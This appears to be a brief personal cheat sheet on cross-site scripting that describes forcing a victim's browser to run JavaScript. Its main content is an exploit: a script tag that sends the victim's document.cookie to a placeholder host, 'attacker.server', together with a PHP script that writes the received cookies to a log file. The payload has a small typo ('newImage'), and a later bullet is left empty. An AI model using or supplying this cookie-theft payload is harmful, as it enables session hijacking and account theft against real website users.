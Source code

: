 ## Essence
- Within certain restrictions, driving victim to execute any JavaScript.

## Exploit
- obtain cookie
```
<script>newImage().src="http://attacker.server/get.php?cookie="+document.cookie;</script>

<?php
$ck =$_GET['cookie'];
error_log("$ck\n",3,"cookie.txt");
?>
```
- request certain special service
  - 
- 
